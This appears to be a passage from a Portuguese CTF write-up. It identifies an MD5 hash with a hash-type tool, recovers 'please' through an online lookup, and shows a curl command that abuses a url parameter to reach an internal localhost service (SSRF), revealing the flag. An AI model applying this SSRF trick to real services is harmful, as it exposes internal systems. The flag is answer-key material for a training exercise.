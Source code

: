 ```
[+] MD4
[+] MD2
[+] MD5(HMAC)
[+] MD4(HMAC)
[+] MD2(HMAC)
[+] MD5(HMAC(Wordpress))
[+] Haval-128
[+] Haval-128(HMAC)
[+] RipeMD-128
[+] RipeMD-128(HMAC)
[+] SNEFRU-128
[+] SNEFRU-128(HMAC)
[+] Tiger-128
[+] Tiger-128(HMAC)
[+] md5($pass.$salt)
[+] md5($salt.$pass)
[+] md5($salt.$pass.$salt)
[+] md5($salt.$pass.$username)
[+] md5($salt.md5($pass))
[+] md5($salt.md5($pass))
[+] md5($salt.md5($pass.$salt))
[+] md5($salt.md5($pass.$salt))
[+] md5($salt.md5($salt.$pass))
[+] md5($salt.md5(md5($pass).$salt))
[+] md5($username.0.$pass)
[+] md5($username.LF.$pass)
[+] md5($username.md5($pass).$salt)
[+] md5(md5($pass))
[+] md5(md5($pass).$salt)
[+] md5(md5($pass).md5($salt))
[+] md5(md5($salt).$pass)
[+] md5(md5($salt).md5($pass))
[+] md5(md5($username.$pass).$salt)
[+] md5(md5(md5($pass)))
[+] md5(md5(md5(md5($pass))))
[+] md5(md5(md5(md5(md5($pass)))))
[+] md5(sha1($pass))
[+] md5(sha1(md5($pass)))
[+] md5(sha1(md5(sha1($pass))))
[+] md5(strtoupper(md5($pass)))
```

Procurando o hash em base de dados online de MD5, procurando por "MD5 Decrypt"
na internet, foi possível encontrar o valor:

```
$ echo -n 'please' | md5sum

6050ce63e4bce6764cb34cac51fb44d1  -
```

Passando o valor `please` para o parâmetro `flag`, temos a flag:

```
$ curl https://[redacted]/synchronize?url=http://127.0.0.1:8090/decode?flag=please

ZUP-CTF{7h1s1sth33@s13stSsRfFl4g3v3r}
```

[nmap]: https://nmap.org
